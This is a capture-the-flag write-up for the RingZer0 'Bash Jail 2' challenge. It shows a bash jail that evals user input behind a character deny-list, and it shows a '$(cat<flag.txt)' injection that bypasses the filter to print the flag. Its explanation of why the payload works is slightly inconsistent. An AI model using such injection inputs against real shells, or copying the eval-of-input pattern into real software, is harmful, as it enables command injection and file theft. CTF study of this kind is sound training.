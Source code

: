 # Bash Jail 2

## Challenge Details 

- **CTF:** RingZer0
- **Category:** Jail Escaping
- **Points:** 2

## Provided Materials

- SSH credentials

## Solution

Challenge bash code:

```sh
function check_space {
	if [[ $1 == *[bdks';''&'' ']* ]]
	then 	
    		return 0
	fi

	return 1
}

while :
do
	echo "Your input:"
	read input
	if check_space "$input" 
	then
		echo -e '\033[0;31mRestricted characters has been used\033[0m'
	else
		output="echo Your command is: $input"
		eval $output
	fi
done 
```

None of the symbols from `cat flag.txt` are in the restricted characters set, so we need to figure out how to execute it without the space character.

**Redirection**: The `<` symbol is used for input redirection. It tells the shell to read the input for the command from a file instead of from the standard input (keyboard). In this case, `cat<flag.txt` means that the `cat` command will read its input from `flag.txt`.

But we also need `command substitution`:

**Command Substitution**: The `$(...)` syntax is used for command substitution. It executes the command inside the parentheses and substitutes the command's output into the outer command. This means that the shell will take the output of the command inside `$(...)` and use it as part of the command line.

`$(cat<flag.txt)` will read the contents of flag.txt and then execute those contents as a command:

```sh
Your input:
$(cat<flag.txt)
Your command is: FLAG-a78i8TFD60z3825292rJ9JK12gIyVI5P
```

## Final Flag

`FLAG-a78i8TFD60z3825292rJ9JK12gIyVI5P`

*Created by [bu19akov](https://github.com/bu19akov)*